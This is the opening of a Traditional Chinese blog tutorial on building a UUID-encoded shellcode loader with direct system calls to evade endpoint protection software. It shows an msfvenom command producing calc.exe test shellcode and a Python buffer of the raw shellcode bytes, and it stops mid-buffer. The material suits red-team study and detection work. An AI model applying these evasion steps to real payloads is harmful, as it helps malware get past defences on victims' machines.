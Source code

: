 ```yaml
---
title: "跟端點防護軟體玩玩貓捉老鼠的遊戲 - Shellcode loader"
date: 2022-03-01
tags: [前端, malware, yara]
author: zxgangandy
layout: zh-cn/layouts/post.njk
image: /img/posts/zxgangandy/uuid-shellcode/uuid-in-memory.png
---
```



在資安世界的紅藍對抗像極了貓捉老鼠遊戲

**紅隊** 研究新穎攻擊手法，開發新工具，繞過偵測，長期維持權限

**藍隊** 研究偵測手法，從中偵測阻擋，從偵測點串起整個攻擊鏈

今天來玩玩 malware 針對端點防護軟體會用的一些手法，做個基於 direct system call 的 uuid shellcode loader


UUID Shellcode 早在 2017 年就有被研究員提出，在 2021 年 NCCGroup 發表了 [Lazarus APT Group](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/) 使用 UUID Shellcode 的相關技術，之後更衍伸出 ipv6 與 mac address 格式的 shellcode

uuid 格式長得像下面這樣，中間為 `-` 分隔

```diff
c534401d-b8f0-4880-b4ee-f68bdcaa60c9
```

每個 char 都是 0-f 組成，剛好可以對應到 shellcode 的 hex

![project setup](/img/posts/zxgangandy/uuid-shellcode/uuid-format.png)

## 產生 UUID Shellcode

首先簡單使用 metasploit framework 產生測試的小算盤 shellcode 在過濾一下 null byte

```diff
msfvenom -p windows/x64/exec CMD=calc.exe -b '\x00' -f py
```

利用 python 內建的 UUID lib 產生字串

```python
import uuid

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x75\x7a\x57\xe8\x7a\x66\xe0"
buf += b"\x6d\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\x89\x32\xd4\x0c\x8a\x8e\x20\x6d\x75\x7a\x16\xb9\x3b"
buf += b"\x36\xb2\x3c\x23\x32\x66\x3a\x1f\x2e\x6b\x3f\x15\x32"
buf += b"\xdc\xba\x62\x2e\x6b\x3f\x55\x32\xdc\x9a\x2a\x2e\xef"
buf += b"\xda\x3f\x30\x1a\xd9\xb3\x2e\xd1\xad\xd9\x46\x36\x94"
buf += b"\x78\x4a\xc0\x2c\xb4\xb3\x5a\xa9\x7b\xa7\x02\x80\x27"
buf += b"\x3b\x06\xa0\xf1\x34\xc0\xe6\x37\x46\x1f\xe9\xaa\xed"
buf += b"\x60\xe5\x75\x7a\x57\xa0\xff\xa6\x94\x0a\x3d\x7b\x87"
```